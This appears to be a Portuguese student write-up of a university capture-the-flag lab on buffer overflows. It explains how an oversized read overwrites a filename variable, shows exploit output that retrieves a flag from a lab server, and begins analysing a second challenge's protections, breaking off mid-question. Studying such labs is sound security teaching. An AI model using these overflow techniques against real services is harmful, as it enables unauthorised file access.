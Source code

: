 O ficheiro nao é criado pelo programa entao podemos alterar o target file.

Existe um buffer overflow que nos deixa escrever por cima da variável que tem
contem o nome do ficheiro.

### Existe algum buffer-overflow? Se sim, o que é que podes fazer?

A leitura para o char array `buffer` aceita até 28 chars mas o buffer tem 20 =>
possível fazer overflow.

### Abusar buffer-overflow para ler outro ficheiro

```
[11/14/21]seed@VM:~/ctf5$ python3 exploit-example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4003: Done
[*] Switching to interactive mode
Echo 12345678901234567890flag.txt
I like what you got!
flag{6c9951e09608d5fcac88f83fa45e9f48}
[*] Got EOF while reading in interactive
$
[*] Closed connection to ctf-fsi.fe.up.pt port 4003
[11/14/21]seed@VM:~/ctf5$
```

### Flag 1

`flag{6c9951e09608d5fcac88f83fa45e9f48}`

## Desafio #2

### checksec

```
[11/14/21]seed@VM:~/.../challenge2$ checksec program
[*] '/home/seed/ctf5/challenge2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Mesmas permissoes.

### Que alterações foram feitas?

- Aumentaram o tamanho de chars lidos.
- Adicionaram um char array `val` que serve como uma especie de canary.

### Mitigam na totalidade o problema?
